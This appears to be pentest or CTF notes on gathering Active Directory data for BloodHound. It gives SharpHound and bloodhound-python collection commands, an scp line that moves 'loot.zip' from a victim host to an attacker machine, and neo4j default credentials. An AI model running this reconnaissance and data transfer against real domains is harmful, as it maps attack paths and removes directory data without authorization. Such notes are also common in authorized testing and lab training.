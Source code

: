 ### collecting data (ingesting)

There are two different methods to ingest data for Bloodhound

1) Sharphound
2) bloodhound-python


---

### Sharphound

You will need control on a domain machine.

These commands will gather the .json files you need to run Bloodhound

`Sharphound.ps1`
`Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`

transfer loot.zip to attacker machine

`scp -T victim@10.10.18.217:<file location> <attacker directory>`

---

### bloodhound-python

```
bloodhound-python -c All -u 'svc-admin' -p 'password' -gc 'foobar.local' -dc 'domainname.controller.local' -d domain.local -ns 10.10.10.10
```

---

### starting bloodhound

start neo4j first
`neo4j console` 

default creds - `neo4j:neo4j`

start `bloodhound`

you can drag and drop loot.zip

**side note: you can clear previous data under `database info` tab > clear db**

---

